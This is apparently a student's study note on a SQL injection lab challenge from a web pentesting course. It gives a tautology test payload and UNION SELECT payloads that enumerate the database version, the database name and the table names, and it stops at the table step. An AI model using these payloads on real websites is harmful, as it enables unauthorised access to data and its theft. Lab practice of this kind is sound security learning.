 
#tcm-pwpa-SQLi-challenge
[[1. Introduction to SQL Injection]]
[[1. SQLMAP]]
[[1. SQLi]]

## Injection 0x03 [Challenge]

### Check if the page has SQLi vuln  : 

`x' or 1=1#`

- if *yes* then it will return all the record and render it on the page.

![[Pasted image 20250805201957.png]]

![[Pasted image 20250805202040.png]]

### Data Exfiltration using `UNION` : 

1. Checking.

	- Command used : `Tanjyoubi Sushi Rack' union select null,null,null,null#`

	- Output : 

		![[Pasted image 20250805202958.png]]

2. Database Version : 

	- Command Used : `Tanjyoubi Sushi Rack' union select null,null,null,version()#`

	- Output : 

		![[Pasted image 20250805203236.png]]

3. Current Database Name : 

	-  Command Used : `Tanjyoubi Sushi Rack' union select null,null,null,database()#`

	-  Output : 

		![[Pasted image 20250805205526.png]]

4. Current Table Name : 

	- Command Used : `Tanjyoubi Sushi Rack' UNION SELECT null,null,null,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)#
`





















